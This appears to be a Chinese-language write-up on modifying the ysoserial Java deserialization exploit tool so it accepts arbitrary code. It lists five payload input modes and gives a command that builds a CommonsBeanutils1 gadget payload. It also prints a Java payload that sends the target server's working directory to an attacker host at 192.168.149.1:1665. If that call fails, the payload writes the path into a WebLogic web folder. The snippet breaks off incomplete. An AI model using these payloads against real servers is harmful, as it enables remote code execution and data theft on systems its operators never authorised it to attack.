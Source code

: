 



----

## 修改ysoserial使其支持任意代码执行



### 减小payload的体积
根据文章[缩小ysoserial payload体积的几个方法](https://xz.aliyun.com/t/6227)最大程度上减小生成payload的体积，对比结果直接减小一半多。

![image.png](https://gitee.com/samny/images/raw/master/summersec//55u46er55ec/55u46er55ec.png)<br />


---


### 支持自定义方法，类
参考[ysoserial 工具改造（一）](https://www.yuque.com/tianxiadamutou/zcfd4v/ffd33r)和[使ysoserial支持执行自定义代码](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/)方法将生成payload方法进行改造。<br />我这边添加了五种方式

| 序号 | 方式                            | 描述                                                    |
| ---- | ------------------------------- | ------------------------------------------------------- |
| 1    | command                         | 与原版相同                                              |
| 2    | “code:代码内容”                 | 代码量比较少时采用                                      |
| 3    | “codebase64:代码内容base64编码” | 防止代码中存在但引号，双引号，&等字符与控制台命令冲突。 |
| 4    | “codefile:代码文件路径”         | 代码量比较多时采用                                      |
| 5    | “classfile:class路径“           | 利用已生成好的 class 直接获取其字节码                   |

支持下面这些gadget<br />![image.png](https://gitee.com/samny/images/raw/master/summersec//55u46er55ec/55u46er55ec.png)<br />

<a name="Cl1vV"></a>
#### codebase64、codefile:、code三种命令介绍

<br />三个命令使用方法参考，codefile:是code比较多的时候。
```http
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 code:calc
```
```http
String HOST = "http://192.168.149.1:1665";
String WEB_PATH = System.getProperty("user.dir");

String str_url = HOST + "/?info=" + WEB_PATH;
try{
    //若目标能访问我们的服务器，则发送信息到服务器上
    java.net.URL url = new java.net.URL(str_url);
    java.net.URLConnection conn = url.openConnection();
    conn.connect();
    conn.getContent();
}catch(Exception e){
    //若目标不能访问我们的服务器，则将信息写到自己的web目录下info.log文件中
    String webPath = WEB_PATH + "/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/info.log";
    try {
        java.io.FileOutputStream f1 = new java.io.FileOutputStream(webPath);
        f1.write(WEB_PATH.getBytes());
        f1.close();
    } catch (Exception e1) {
        e1.printStackTrace();
    }
```